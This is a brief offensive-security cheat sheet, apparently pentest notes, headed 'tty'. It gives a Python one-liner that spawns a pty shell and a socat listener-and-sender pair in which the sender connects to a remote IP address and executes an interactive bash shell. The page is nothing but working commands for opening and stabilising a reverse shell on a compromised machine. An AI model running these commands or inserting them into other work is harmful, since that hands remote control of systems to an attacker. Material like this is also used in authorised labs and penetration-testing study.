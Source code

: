 # tty

### python

```bash
python* -c 'import pty; pty.spawn("/bin/sh")'
```

※*にはバージョンを入れる



### Socat

```bash
# listener
socat file:`tty`,raw,echo=0 tcp-listen:60000

# sender
socat TCP4:192.168.119.175:60000 exec:'bash -li',pty,stderr,setsid,sigint,sane
```

